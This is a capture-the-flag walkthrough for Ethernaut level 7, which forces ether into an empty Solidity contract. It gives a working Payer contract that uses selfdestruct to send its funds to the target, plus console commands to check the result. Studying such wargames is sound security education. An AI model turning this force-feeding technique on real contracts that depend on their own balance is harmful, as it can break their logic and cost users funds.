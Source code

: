 # Level 7: Force

This is the level 7 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [selfdestruct](https://docs.soliditylang.org/en/v0.6.0/units-and-global-variables.html#contract-related) function in Solidity

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

`player` has to somehow make this empty contract's balance grater that 0.

Simple `transfer` or `send` won't work because the `Force` implements neither `receive` nor `fallaback` functions. Calls with any value will revert.

However, the checks can be bypassed by using `selfdestruct` of an intermediate contract - `Payer` which would specify `Force`'s address as beneficiary of it's funds after it's self-destruction.

First off make a soon-to-be-destroyed contract in Remix:

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Payer {
    uint public balance = 0;

    function destruct(address payable _to) external payable {
        selfdestruct(_to);
    }

    function deposit() external payable {
        balance += msg.value;
    }
}
```

Send a value of say, `10000000000000 wei` (0.00001 eth) by calling `deposit`, so that `Payer`'s balance increases to same amount.

Get instance address of `Force` in console:

```javascript
contact.address

// Output: <your-instance-address>
```

Call `destruct` of `Payer` with `<your-instance-address>` as parameter. That's destroy `Payer` and send all of it's funds to `Force`. Verify by:

```javascript
await getBalance(contract.address)

// Output: '0.00001'
```

Level cracked!

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
